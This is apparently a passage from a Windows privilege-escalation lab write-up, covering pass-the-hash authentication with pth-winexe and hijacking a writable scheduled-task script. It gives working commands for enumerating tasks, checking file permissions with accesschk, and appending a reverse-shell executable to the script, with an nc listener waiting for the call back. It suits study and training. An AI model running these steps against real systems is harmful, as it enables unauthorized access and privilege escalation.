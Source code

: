 ### 10 - Passwords - Passing the Hash

When we get the admin user NTHash/NTLM hash, we can use pass-the-hash attack to authenticate with the hash instead.

`pth-winexe -U 'admin%<LM:NTHas>' 10.10.124.222 cmd.exe` .

### 11 - Scheduled Tasks

Run below command to list all scheduled tasks our user can see.

> `schtasks /query /fo LIST /v` .
>
> `PS> Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State`&#x20;

According to the task, there’s a script in C drive called cleanup.ps1.

<figure><img src="https://miro.medium.com/v2/resize:fit:525/1*wiFCPs8nNtHO0_xxMI9Kmw.png" alt="" height="223" width="700"><figcaption><p>devtools</p></figcaption></figure>

Let’s check the permissions on this file using accesschk application.

`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

<figure><img src=".gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

We are able to append and write data to this script. So, let’s append our reverse.exe to this script to get back reverse shell on our machine.

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Setup a nc listener adn wait for the script to run.

### 12 - Insecure GUI Apps
